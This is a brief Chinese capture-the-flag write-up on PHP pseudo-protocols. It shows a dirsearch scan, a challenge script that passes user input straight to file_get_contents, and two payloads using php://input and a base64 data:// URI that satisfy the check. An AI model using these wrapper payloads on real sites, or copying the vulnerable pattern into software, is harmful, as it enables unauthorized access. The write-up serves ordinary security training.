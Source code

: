 #PHP 伪协议

```sh
dirsearch -u  "url"

结果：
[16:16:45] 200 -  233B  - /test.txt
[16:16:49] 200 -  192B  - /www.rar
```

/test.txt

```php
<?php
error_reporting(0);
if(isset($_GET['cxk'])){
    $cxk=$_GET['cxk'];
    if(file_get_contents($cxk)=="ctrl"){
        echo $flag;
    }else{
        echo "洗洗睡吧";
    }
}else{
    echo "nononoononoonono";
}
?>
```

/www.rar -> gift(2).txt

```txt
恭喜你
turn to

/orzorz.php
```

发现 test.txt 内容即为 orzorz.php

尝试 `?cxk=php://input` burpsuite 设置数据为 ctrl 成功
尝试 `?cxk=data://text/plain;base64,Y3RybA==` 成功
